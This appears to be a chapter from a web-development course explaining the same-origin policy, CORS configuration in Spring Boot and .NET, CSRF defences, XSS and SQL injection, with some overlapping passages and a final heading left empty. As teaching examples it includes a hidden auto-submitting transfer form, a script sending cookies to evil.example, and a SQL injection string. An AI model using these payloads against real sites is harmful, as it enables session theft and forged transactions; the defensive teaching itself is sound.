








# Security - Other concepts

Authentication and authorization (see [Security - Authentication](security-authentication.md) and [Security - Authorization](security-authorization.md)) are only a part of web application security. Browsers add their own rules, and attackers exploit the way the web works. This chapter describes the concepts that every backend and frontend developer meets sooner or later. For each of them we explain how it arises, what it is good for (or why it exists), how it threatens a web application, and how it is typically solved.

## Same-Origin Policy and CORS

### Same-Origin Policy

The foundation is the **Same-Origin Policy (SOP)**, a security rule built into every browser. An **origin** is the combination of *scheme*, *host* and *port*. So `https://app.example.com` and `https://api.example.com` are different origins, as are `http://example.com` and `https://example.com`, or `https://example.com` and `https://example.com:8443`. By default, JavaScript loaded from one origin may not **read** responses from another origin. Without it, any page you open could silently read your e-mail from another tab where you are logged in.

### CORS: Controlled Relaxation

Modern applications often need what SOP forbids: a single-page application at `https://app.example.com` calls a REST API at `https://api.example.com`. **CORS (Cross-Origin Resource Sharing)** is the mechanism by which the *server* tells the browser which other origins are allowed to read its responses. It is implemented through HTTP headers, and the browser enforces it.

Cross-Origin Resource Sharing (CORS) is a security feature implemented in web browsers that controls how resources (pages, images, styles, ...) can be requested from a domain different than the **one serving the web page**. By default, browsers enforce the **same-origin policy**, which restricts web applications from making requests to a different origin (a combination of protocol, domain, and port) to prevent malicious behavior.&#x20;


In the context of CORS, an **Origin** refers to the unique combination of a web page’s **scheme (protocol), host (domain), and port**. Together, these three elements define where a request is coming from. For example, `https://example.com:443` has a different origin than `http://example.com:80` because the protocol and port differ, even though the domain is the same. The browser uses this origin value to enforce the **same-origin policy**, meaning that scripts running on one origin cannot freely access resources from another origin unless explicitly permitted. This concept is fundamental to web security, as it prevents unauthorized cross-site interactions while still allowing controlled communication through CORS headers.


If CORS were disabled or did not exist, any website could freely make requests to other domains without restriction. This would expose users to **Cross-Site Request Forgery (CSRF)** and **data theft attacks**, where a malicious site could silently send requests to another site where the user is authenticated and steal sensitive information.

For "simple" requests the browser sends the request with an `Origin` header and checks the response header `Access-Control-Allow-Origin`. For requests that may have side effects (for example a `PUT`/`DELETE`, or a request with the `Authorization` header or JSON `Content-Type`), the browser first sends a **preflight** request, an `OPTIONS` call asking "would you accept this method and these headers from this origin?".



CORS is frequently misunderstood. It is **not a protection of the server**: the request still reaches the server (and for simple requests is executed), and tools such as `curl` or Postman ignore CORS completely. It only prevents the *browser* from handing the response to a script from an untrusted origin. It is also the reason why "it works in Postman but not in the browser" is such a common problem for beginners.

The threat comes from **misconfiguration**. Setting `Access-Control-Allow-Origin: *` together with credentials is forbidden by browsers, so developers "fix" the problem by reflecting any `Origin` back and allowing credentials, which lets any malicious site read the authenticated responses of the logged-in user. Another common mistake is trusting origins by a weak pattern match (`*.example.com.attacker.net`) or allowing the origin `null`.

The typical solution is an explicit **allow-list** of trusted origins, allowed methods and headers, enabling credentials only when really needed, and configuring it in one central place. In Spring Boot:

```java
@Bean
CorsConfigurationSource corsConfigurationSource() {
    CorsConfiguration cfg = new CorsConfiguration();
    cfg.setAllowedOrigins(List.of("https://app.example.com"));
    cfg.setAllowedMethods(List.of("GET", "POST", "PUT", "DELETE"));
    cfg.setAllowedHeaders(List.of("Authorization", "Content-Type"));
    cfg.setAllowCredentials(true);
    UrlBasedCorsConfigurationSource src = new UrlBasedCorsConfigurationSource();
    src.registerCorsConfiguration("/api/**", cfg);
    return src;
}
```

During development, a proxy in the frontend dev server avoids the cross-origin situation entirely. See also the earlier topic [CORS - Cross-Origin Resource Sharing](../general-topics/cors-cross-origin-resource-sharing.md).


CORS typically does not show up while you develop and test the backend alone. Tools such as Bruno, Postman, `curl` or the Swagger UI served by the backend itself either are not browsers, so they do not enforce CORS at all, or they call the API from the same origin, so no cross-origin request occurs. The problem appears as soon as a **frontend application** running in a browser on a different origin (for example `http://localhost:3000` calling `http://localhost:8080`) starts to call the API. The browser then blocks the response, and the developer sees a "blocked by CORS policy" error in the console even though the very same request worked in Postman. In that case, the fix belongs to the backend configuration (or to a development proxy), not to the frontend code, and it is worth testing the CORS settings early with the real frontend.


### **CORS vs. Front/Backend Web Application**

Why is it important w.r.t to the web applications? Imagine that the front-end and back-end share the same domain but differ by port, for example, a React front-end running on `https://shop.com:3000` and a SpringBoot backend API hosted on `https://shop.com:5000`. Even though they share the same domain name (`shop.com`), the **port numbers are different**, which means the browser treats them as **different origins**.

If the browser downloads the front-end app from `https://shop.com:3000`, its origin is `https://shop.com:3000` and the **non-cross** requests can be sent only at `https://shop.com:3000`. But if the frontend makes a request at backend URL `https://shop.com:5000`, it requests a different origin (due to a different port number) and activates the CORS.

### Setting Up

#### **Front-end**

On the **front-end side**, you generally cannot “allow” or configure CORS directly because CORS is enforced by the browser and controlled by the **server’s response headers**. The front-end simply makes requests, and the browser checks whether the back-end has permitted them.

#### **Back-end**

Allowing CORS on a back-end involves configuring the server to send specific HTTP headers that tell the browser which cross-origin requests are permitted. The most important header is `Access-Control-Allow-Origin`, which should be set to the exact front-end origin (e.g., `http://localhost:3000`) rather than a wildcard in production. In addition, the server must specify allowed HTTP methods with `Access-Control-Allow-Methods` (such as `GET, POST, PUT, DELETE`) and permitted request headers with `Access-Control-Allow-Headers` (like `Content-Type, Authorization`). For requests that include credentials (cookies or authentication tokens), the server must also send `Access-Control-Allow-Credentials: true`. Finally, the back-end should correctly handle **preflight OPTIONS requests**, which browsers automatically send before certain cross-origin calls, by responding with the same CORS headers. This setup ensures that the browser recognizes the back-end as a trusted source and allows the front-end to communicate securely.

#####  SpringBoot

In Spring Boot, enabling CORS typically means configuring the server to send the right headers back to the browser. This can be done in a few ways: you can annotate individual controller methods with `@CrossOrigin` to allow specific origins, or you can define a global CORS configuration using a `WebMvcConfigurer` bean. In both cases, you specify which origins, HTTP methods, and headers are permitted. This ensures that when your React front-end (running on a different port) makes requests, the Spring Boot back-end responds with the proper CORS headers so the browser allows the communication.

An example of controller-level CORS setup:

```java
@RestController
@RequestMapping("/api")
public class ProductController {

    // Allow requests from http://localhost:3000
    @CrossOrigin(origins = "http://localhost:3000")
    @GetMapping("/products")
    public List<String> getProducts() {
        return List.of("Laptop", "Phone", "Tablet");
    }
}
```

And an example of global CORS setup:

```java
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.web.servlet.config.annotation.CorsRegistry;
import org.springframework.web.servlet.config.annotation.WebMvcConfigurer;

@Configuration
public class CorsConfig {

    @Bean
    public WebMvcConfigurer corsConfigurer() {
        return new WebMvcConfigurer() {
            @Override
            public void addCorsMappings(CorsRegistry registry) {
                registry.addMapping("/**") // apply to all endpoints
                        .allowedOrigins("http://localhost:3000") // front-end origin
                        .allowedMethods("GET", "POST", "PUT", "DELETE") // allowed HTTP methods
                        .allowedHeaders("*") // allow all headers
                        .allowCredentials(true); // allow cookies/auth headers if needed
            }
        };
    }
}
```

##### .NET

In a .NET REST API, enabling CORS is typically done by configuring it in the application’s startup pipeline. You register CORS policies in the service configuration (e.g., `builder.Services.AddCors(...)`) and then apply them in the middleware (`app.UseCors(...)`). Within the policy, you specify which origins, HTTP methods, and headers are allowed so that your front-end (running on a different port) can communicate with the back-end. This ensures the browser receives the proper CORS headers and permits cross-origin requests securely.

```cs
var builder = WebApplication.CreateBuilder(args);

// Register CORS services
builder.Services.AddCors(options =>
{
    options.AddPolicy("AllowFrontend",
        policy =>
        {
            policy.WithOrigins("http://localhost:3000") // your React front-end origin
                  .AllowAnyMethod()                     // allow GET, POST, PUT, DELETE, etc.
                  .AllowAnyHeader()                     // allow all headers
                  .AllowCredentials();                  // allow cookies/auth headers if needed
        });
});

var app = builder.Build();

// Enable CORS middleware
app.UseCors("AllowFrontend");

// definitions of endpoints or add controllers mapping here
app.MapGet("/api/products", () =>
{
    return new[] { "Laptop", "Phone", "Tablet" };
});

app.Run();
```


## CSRF - Cross-Site Request Forgery

Cross-Site Request Forgery (CSRF) is a type of web security attack where a malicious website tricks a user’s browser into performing unwanted actions on another site where the user is already authenticated. Because **browsers automatically include cookies and session tokens with requests**, an attacker can exploit this by making the victim’s browser send requests (like transferring money, changing account settings, or posting data) without the user’s knowledge. In essence, CSRF takes advantage of the trust a web application has in the user’s browser, making it appear as though the user intentionally initiated the action. Proper defenses, such as CSRF tokens or same-site cookie settings, are used to prevent these unauthorized requests. 

**How it arises.** Browsers attach cookies to every request sent to the cookie's domain, *regardless of which page triggered the request*. If a user is logged in to `bank.example` (a session cookie is stored) and then visits a malicious page, that page can make the browser send a request to the bank, for example by an auto-submitted hidden form:

```html
<form action="https://bank.example/transfer" method="POST">
  <input type="hidden" name="to" value="attacker-account">
  <input type="hidden" name="amount" value="10000">
</form>
<script>document.forms[0].submit()</script>
```
The schema is as follows:

1. **User logs into Site A** The user successfully authenticates on Site A (e.g., their bank or social media platform). The browser stores an authorization cookie or session token for that site.
2. **Browser automatically keeps the cookie** Whenever the user’s browser sends requests to Site A, it automatically includes the stored cookie, proving the user is authenticated.
3. **User visits a malicious Site B** While still logged into Site A, the user unknowingly navigates to Site B, which is controlled by an attacker.
4. **Malicious request is embedded** Site B contains hidden code (like a form, image, or script) that sends a crafted request to Site A. The browser, following its normal behavior, attaches the user’s cookie to this request.
5. **Site A processes the request** Because Site A sees a valid cookie, it assumes the request is legitimate and executes the action (e.g., transferring money, changing account settings).
6. **Result: unintended action** The user’s account on Site A is modified without their knowledge or consent, completing the CSRF attack.



The browser dutifully attaches the user's session cookie, and the bank sees a perfectly authenticated request.



**What it is about.** The attacker cannot read the response (SOP prevents it), but does not need to: the goal is a **state-changing action** performed in the name of the victim, such as a money transfer, a password or e-mail change, or deleting data. The server cannot distinguish a deliberate action from a forged one, because both carry valid credentials.

**Solutions.** All defences rely on the same idea: the server must be able to tell a request that was really initiated by its own application from one that was triggered by a foreign site. There are three main techniques, which can be combined, followed by several supporting measures. See also [CSRF - Cross-Site Request Forgery](../general-topics/csrf-cross-site-request-forgery.md).

To protect applications from CSRF attacks, developers need to implement multiple layers of defense that ensure requests truly come from the intended user and origin. Here are the most common strategies:

* **Use CSRF tokens**: Generate unique, unpredictable tokens for each session or request and validate them server-side.
* **Enable SameSite cookies**: Configure cookies with `SameSite=Lax` or `Strict` to prevent them from being sent with cross-site requests.
* **Check request origin**: Validate the `Origin` or `Referer` headers to confirm that requests come from trusted domains.
* **Restrict sensitive actions to POST/PUT/DELETE**: Avoid using GET requests for state-changing operations, since they can be easily triggered by attackers.
* **Require re-authentication for critical actions**: Ask users to re-enter credentials or confirm actions (like password changes or money transfers).

### 1. SameSite Cookie Attribute

The most effective modern defence is the **`SameSite` cookie attribute**, which instructs the browser *not to attach the cookie* to requests initiated from another site. With `SameSite=Strict`, the cookie is never sent in a cross-site request; `Lax` additionally allows it for top-level navigations using safe methods (a click on a link), which keeps links to your site working for logged-in users; `None` (with `Secure`) disables the protection. `Lax` is the default in current browsers, but it is better to set it explicitly. The advantage is that it needs no code on either side. A limitation is that it protects only against *cross-site* requests (not requests from a sibling subdomain under the same site), and it depends on the browser behaviour, so it is often combined with another technique.

**SameSite cookies** are a browser security feature designed to help protect against **Cross-Site Request Forgery (CSRF)** and certain types of cross-site tracking. They control whether cookies are sent along with requests that originate from different sites. By setting the `SameSite` attribute on a cookie, developers can specify how strictly the browser should limit its use:

* **SameSite=Strict** - Cookies are sent **only** when the request originates from the same site. If the user clicks a link from another site, the cookie will not be included. This offers the strongest CSRF protection but can break some cross-site functionality.
* **SameSite=Lax** - Cookies are sent for same-site requests and for top-level navigation (like clicking a link), but not for background requests (like images or iframes). Moreover, those requests must use safe HTTP methods (like GET). This is a balanced default that protects against most CSRF attacks while allowing common user flows (like opening the link from e-mail to view product).
* **SameSite=None** - Cookies are sent with all requests, including cross-site ones, but must also be marked as `Secure` (only sent over HTTPS). This is necessary for scenarios like third-party APIs or embedded content, but it reintroduces CSRF risks if not combined with other protections.



By configuring `SameSite` correctly, developers reduce the chance that a malicious site can trick a user’s browser into sending cookies to another domain without their knowledge. It’s a simple but powerful layer of defense against CSRF.


**Important note:** If you set SameSite=None, you must also set the **Secure** attribute (cookie is only sent over HTTPS), otherwise modern browsers will refuse to store the cookie at all.




### 2. Synchronizer CSRF Token

The classic defence is the **synchronizer token pattern**. The server generates an unpredictable random token, stores it in the user's session, and embeds it in every form or hands it to the frontend. Every state-changing request must carry this token (as a hidden field or a custom header), and the server compares it with the value stored in the session. A malicious site can make the browser send the cookie, but it cannot **read** the token (Same-Origin Policy), so it cannot include it in the forged request. The approach is robust, but it needs server-side state (the token is kept in the session), so it fits traditional server-rendered applications best. Spring Security enables it by default.

The back-end generates a unique, unpredictable token and sends it to the front-end, often as part of the initial authentication response. The front-end then stores this token securely in memory (e.g., in application state or a JavaScript variable, not in cookies or local storage) and attaches it to every subsequent API request, usually in a custom HTTP header such as `X-CSRF-Token`. On the server side, the back-end validates the token against the user’s session or a server-side store. If the token is missing or invalid, the request is rejected. This ensures that only requests intentionally initiated by the legitimate front-end are accepted, effectively blocking CSRF attacks in REST-based applications.



### 3. Double Submit Cookie

The **double submit cookie** is a stateless variant, suitable for single-page applications and APIs where the server does not want to keep tokens in a session. The server sets a random token in a cookie (which JavaScript from the own site is allowed to read), and the frontend copies the same value into a request header (for example `X-XSRF-TOKEN`) on each state-changing request. The server only checks that the cookie value and the header value are identical. A foreign site can make the browser send the cookie, but it cannot read it and therefore cannot set the matching header. Angular and many other frontend libraries support this pattern out of the box. It is simpler for the server, but a bit weaker than the synchronizer token (for example, it is less secure when an attacker can set cookies through a vulnerable subdomain), so a signed or session-bound token value is recommended.

* **Step 1: Server issues a CSRF token** When the user authenticates, the back-end generates a random CSRF token and sets it in a cookie (e.g., `csrfToken=abc123`).
* **Step 2: Front-end reads the cookie** The front-end retrieves the token value from the cookie (using JavaScript) and attaches it to every API request in a custom header (e.g., `X-CSRF-Token: abc123`).
* **Step 3: Server validates the request** On each request, the server compares the CSRF token in the cookie with the token in the custom header.
  * If they match → the request is considered legitimate.
  * If they don’t match or the header is missing → the request is rejected.




### Supporting Measures

Further measures strengthen the techniques above. The server can check the `Origin` and `Referer` headers and reject requests that come from an unexpected origin. It can require a custom header such as `X-Requested-With` (a cross-site form cannot set it, and a script can add it only with the permission of CORS). Most importantly, the application must **never change state with `GET` requests**, because `GET` can be triggered by a simple image tag or link. For sensitive operations (changing a password or e-mail, payments), it is good to ask the user for the password or a second factor again, which a forged request cannot supply.

Applications that authenticate only with the `Authorization: Bearer` header (not cookies) are not vulnerable to CSRF, because the browser does not attach that header automatically (see [Security - Authorization](security-authorization.md)). This is the reason why CSRF protection is often disabled in Spring Security for stateless token APIs, but it must stay enabled whenever the authentication is based on cookies.

## XSS - Cross-Site Scripting

**How it arises.** XSS occurs when an application includes **untrusted data** (a comment, a username, a search term, a URL parameter) in a page without proper handling, so that the browser interprets it as **code** instead of text. If a user's comment `<script>fetch('https://evil.example/?c='+document.cookie)</script>` is displayed as raw HTML, the script runs in the context of the victim's session on the legitimate site.

There are three classical types. **Stored XSS** keeps the malicious input in the database (comments, profiles, messages), so every visitor is attacked. **Reflected XSS** puts the payload in a link (a query parameter) that the server echoes back in the response; the victim must click the link. **DOM-based XSS** happens entirely in the browser, when client-side JavaScript writes untrusted data into the page, for example via `innerHTML`.

**Why it is dangerous.** The injected script runs with the full privileges of the page under the legitimate origin. It can read the page, steal tokens from `localStorage` (and see why storage matters in [Security - Authorization](security-authorization.md)), perform actions as the user (even bypassing CSRF protection, because the request originates from the trusted origin), alter the page to show a fake login form, log keystrokes, or install a persistent foothold. XSS is considered one of the most serious web vulnerabilities, because it effectively breaks the Same-Origin Policy from the inside.

**Solutions.** The primary defence is **context-aware output encoding**: data is converted so that it is shown as text in the specific context (HTML body, attribute, JavaScript, URL). Modern frameworks do it by default: React, Angular and template engines such as Thymeleaf escape values automatically, and the danger returns when the developer bypasses this, for example with `dangerouslySetInnerHTML`, `innerHTML` or Angular's `bypassSecurityTrust...`. When HTML from users must be allowed (a rich text editor), it has to be cleaned by a trusted **sanitizer** (for example DOMPurify on the client or the OWASP Java HTML Sanitizer on the server). Input validation is a useful extra layer but not a replacement for encoding. The next line of defence is a **Content Security Policy (CSP)** header, which tells the browser which script sources are allowed and typically forbids inline scripts, so injected code does not run:

```
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'
```

Finally, mark session cookies `HttpOnly` so that scripts cannot read them, and be careful with third-party scripts. See also [XSS - Cross-Site Scripting](../general-topics/xss-cross-site-scripting.md).



## Other Important Concepts

### SQL Injection and Other Injection Attacks

**How it arises.** The application builds a database query by concatenating user input into a string: `"SELECT * FROM users WHERE name = '" + name + "'"`. An input such as `' OR '1'='1` changes the *structure* of the query, not just its data. The same principle applies to NoSQL queries, operating system commands, LDAP, XML parsers and template engines.

**Threat.** The attacker can read data they should not see, bypass login, modify or delete data, and in the worst case execute commands on the server. It is regularly among the most damaging vulnerabilities.

**Solutions.** Use **parameterized queries** (prepared statements) so that data is never interpreted as code. With Spring Data JPA and named parameters, this is the default:

```java
// safe: the value is a parameter, not part of the query text
@Query("select u from User u where u.name = :name")
Optional<User> findByName(@Param("name") String name);
```

In addition, validate input, use an account for the database with the minimal necessary privileges, and never build queries from strings. See [Database & JPA](../be-spring-boot/database-and-jpa.md).

### Transport Security: HTTPS, TLS and HSTS

